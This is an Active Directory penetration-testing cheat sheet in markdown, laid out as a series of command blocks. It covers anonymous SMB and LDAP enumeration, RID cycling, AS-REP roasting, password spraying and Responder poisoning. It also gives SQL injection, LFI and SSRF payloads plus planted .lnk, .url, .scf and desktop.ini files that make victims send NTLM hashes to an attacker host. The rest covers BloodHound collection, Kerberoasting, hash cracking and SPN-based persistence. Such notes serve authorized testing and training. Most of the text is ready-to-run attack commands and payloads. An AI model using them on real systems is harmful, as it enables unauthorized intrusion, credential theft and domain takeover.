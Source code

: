 # Active Directory

## AD enum (NO creds/sessions)

### Basic recon

```gawk
nxc smb <target>
enum4linux -a <target>
nmap -n -sV --script "ldap* and not brute" -p 389 <target>
```

### SMB enum

```bash
# null session
nxc smb <IP> -u '' -p '' --shares
# guest
nxc smb <IP> -u 'guest' -p '' --shares
```

```bash
# null session
smbclient -N -L //<target>
# guest
smbclient -U 'guest%' -L //<target>
# conect to a share
smbclient [-U 'guest%'] [-N] //<target>/<share>
```

```bash
# null session
smbmap -H <target>
# guest
smbmap -u 'guest' -p '' -H <target>
# recursive listing
smbmap [-u 'guest' -p '] -H <target> -r [<share>]
```

### User enum

```bash
#kerbrute
kerbrute userenum -d <domain> [--dc <target>] users.txt
```

```bash
# smb/rpc/ldap
nxc smb <target> [-u 'guest' -p ''] --users
rpcdump.py [[domain/]guest:@]<target>
```

```bash
# rid cycling
nxc smb [-u 'guest' -p ''] --rid-brute <target>
lookupsid.py [-no-pass] [[domain/]guest:@]<target>
seq 500 1500 xargs -P 50 -I{} rpcclient -U 'guest%' <target> -c 'lookupsids S-1-123-{}'
```

### With valid username list

* AS-REP Roast

```bash
GetNPUsers.py -no-pass -usersfile valid_users.txt <domain>/
```

* Password Spraying/Brute Forcing

```bash
# brute forcing
nxc smb <target> -u valid_users.txt -p passwords.txt
kerbrute bruteuser -d <domain> [--dc <target>] passwords.txt '<user>'

# password spraying
nxc smb <target> -u valid_users.txt -p '<password>'
kerbrute passwordspray -d <domain> [--dc <target>] valid_users.txt '<password>'
```

### Capturing NTLM hashes

#### Network poisoning

```bash
responder -I <interface>
```

#### Possible Attacks

> https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/

* Via web vulnerability

&#x20;If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

```powershell
# LFI
?page=\\10.10.10.10\test

# SSRF
?url=file://10.10.10.10/test

# SQL Injection
?id=1' union select null,load_file('\\\\10.10.10.10\\test'),null-- -
# MSSQL
?id=1' union select null,(select x from OpenRowset(BULK '\\10.10.10.10\test',SINGLE_CLOB) R(x)),null-- -
?id=1' union select null,(EXEC xp_cmdshell 'dir \\10.10.10.10\test'),null-- -
```

* Shortcut.lnk File

```powershell
# Create a shortcut.lnk with PowerShell
$targetPath = "\\10.10.10.10\test" 
$shortcutPath = "C:\path\to\your\~shortcut.lnk" 
$WScriptShell = New-Object -ComObject WScript.Shell 
$shortcut = $WScriptShell.CreateShortcut($shortcutPath) 
$shortcut.TargetPath = $targetPath 
$shortcut.Save()
```

* Shortcut.url File

```powershell
# Create a shortcut.url with PowerShell
echo '[InternetShortcut]' > ~shortcut.url
echo 'URL=file:///\\10.10.10.10\test' >> ~shortcut.url
```

* SCF File

```powershell
echo '[Shell]' > ~file.scf
echo 'Command=2' >> ~file.scf
echo 'IconFile=explorer.exe,3' >> ~file.scf
echo '[Taskbar]' >> ~file.scf
echo 'Command=ToggleDesktop' >> ~file.scf
echo '[InternetShortcut]' >> ~file.scf
echo 'URL=file:///\\10.10.10.10\test' >> ~file.scf
```

* Desktop.ini File

```powershell
echo '[.ShellClassInfo]' > desktop.ini
echo 'IconResource=\\10.10.10.10\test' >> desktop.ini
attrib +s +h desktop.ini
```

## AD enum (WITH creds/sessions)

### BloodHound enum

You have to configure your neo4j and bloodhound on your machine, then:

```bash
# neo4j
export JAVA_HOME=/usr/lib/jvm/java-11-openjdk/ && neo4j console
# bloodhound
bloodhound
```

#### SharpHound

> https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
# EXE
.\SharpHound.exe -CollectionMethods All
# PS1
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethods All -OutputDirectory .
```

### Kerberoast

{% hint style="danger" %}
If you find this error from Linux: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC. There are a few options:

```bash
ntpdate <target>
rdate -n <target>
```
{% endhint %}

#### Attack

```bash
GetUserSPNs.py -request [-dc-ip <target>] <domain>/<user>:<password>
```

#### Cracking

```bash
john --format=krb5tgs --wordlist=passwords.txt hashes
hashcat -m 13100 --force -a 0 hashes passwords.txt
```

#### Persistence

> https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

```powershell
#PowerView
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='test/test'} -verbose
```
